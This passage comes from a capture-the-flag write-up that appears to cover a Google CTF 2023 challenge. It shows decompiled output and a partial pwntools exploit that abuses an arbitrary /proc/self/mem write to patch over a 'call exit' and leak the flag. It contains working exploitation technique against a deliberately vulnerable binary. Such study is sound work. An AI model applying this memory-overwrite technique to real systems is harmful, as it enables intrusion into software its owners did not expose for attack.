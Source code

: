 ```bash
                var_68h = 0;
                var_60h = 0;
                var_58h = 0;
                var_50h = 0;
                var_48h = 0;
                var_40h = 0;
                var_38h = 0;
                var_14h = sym.imp.read(var_ch, &buf, 0x40);
                iVar1 = sym.imp.__isoc99_sscanf(&buf, "0x%llx %u", &nbytes + 4, &nbytes);
                if ((iVar1 != 2) || (0x7f < nbytes)) break;
                fd = sym.imp.open("/proc/self/mem", 2);
                sym.imp.lseek64(fd, stack0xffffffffffffffd8, 0);
                sym.imp.write(fd, obj.flag, nbytes);
                sym.imp.close();
            }
            sym.imp.exit(0);
# [] After the exit there is more code
            sym.imp.dprintf(var_ch, "Somehow you got here??\n");
            uVar2 = sym.imp.abort();
        }
    }
    return uVar2;
}
[0x00001100]>
```

Perfect! Now we have a target. We overwrite the string "Somehow you got here??" with our flag, and then we "jump over" the `exit` function.

To bypass the `call exit`, I used the flag pattern to write an instruction. Since we can choose how many bytes we want to write, let's overwrite the "call exit" with "CCCCT":

```bash
r3tr0@pwnmachine:~$ python3
...
>>> hex(ord('C')), hex(ord('T'))
('0x43', '0x54')
r3tr0@pwnmachine:~$ rasm2 -ax86 -b64 -d 0x4343434354
push r12
```

With this, we can bypass the `call exit` and reach the desired `dprintf`.

Final exploit:

```python
# pwn template ./chal --host wfw2.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"It's the challenge from before, but I've removed all the fluff")
maps = io.recvuntil(b'\n\n')

elf_base = parse_maps(maps)
log.info('Elf start: ' + hex(elf_base))

# pause()
# ljust(0x40) for fill each read buffer
p = lambda x, y: (hex(x) + ' ' + str(y)).encode().ljust(0x40, b'\0')

string_addr = elf_base + 0x20d5
io.send(p(string_addr, 100))

# create push r12 from "C" and "CT" from flag
# two pushes are needed because of stack alignment

```